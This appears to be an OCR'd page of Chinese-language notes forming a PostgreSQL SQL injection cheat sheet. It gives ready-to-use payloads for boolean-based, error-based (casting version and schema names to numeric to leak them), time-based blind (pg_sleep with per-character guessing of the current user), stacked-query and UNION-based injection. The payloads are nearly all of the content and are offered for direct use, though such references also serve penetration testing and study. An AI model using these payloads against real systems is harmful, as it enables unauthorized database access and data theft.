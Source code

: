 

### 基于布尔型注入

?a=1 AND 1=1   ?a=1 AND 1=2

?name=admin and '1'='1   ?name=admin and '1'='2

### 基于报错注入

语法

cast('1' as numeric)  1转换为数字类型

Numeric(10,2)    指字段是数字型，长度为10,  小数为2位的

1::text                 数据类型转换为text类型

case....when....then....else....end     条件语句



获取版本号

select *from tbuser where id=1 AND 7778=CAST((SELECT version())::text AS NUMERIC)

获取Schemas名称

select *from tbuser where id=1 AND 7778=CAST((SELECT schemaname FROM pg_tables limit 1)::text ASNUMERIC)

select *from tbuser where id=1 AND 7778=CAST((SELECT schemaname FROM pg_tables where schemaname not in ('public') limit 1)::text AS NUMERIC)

### 基于时间的盲注

?id=1 AND 6489 =(SELECT 6489 FROM PG_SLEEP(5))    延时5秒

#### 盲注的逐位猜解

select case WHEN(COALESCE(ASCII(SUBSTR(({current_user}),1,1)),0)>100) THEN pg_sleep(14) ELSE pg_sleep(0) END LIMIT 1--+

### 基于堆叠查询（多语句查询）

?id=1;select PG_SLEEP(5)--+

### 基于联合查询

?id=1 order by 1,2,3

?id=1 UNION ALL SELECT NULL,('11111'),NULL--+ 查看是否输入11111



获取模式名称(schemaname)

?id=1 UNION SELECT NULL,COALESCE(CAST(schemaname AS CHARACTER(10000)),(CHR(32))),NULL FROM pg_tables--+

语法
